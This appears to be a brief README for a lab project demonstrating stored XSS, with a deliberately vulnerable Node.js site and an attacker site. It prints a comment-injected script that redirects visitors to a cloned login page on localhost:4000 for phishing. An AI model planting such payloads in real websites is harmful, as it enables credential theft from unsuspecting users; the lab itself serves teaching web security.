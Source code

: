 # STORED XSS VULNERABILITIES.
This deals with stored XSS vulnerabilities. You will find a vulnerable Node.js website and an attacking website. The attacker logs in with their credentials (e.g., user1/password1) and injects the following script into the comments:
```bash
<script>
  window.location.href = 'http://localhost:4000/login';
</script>
```

which redirects users to a clone page of the hacker's site."
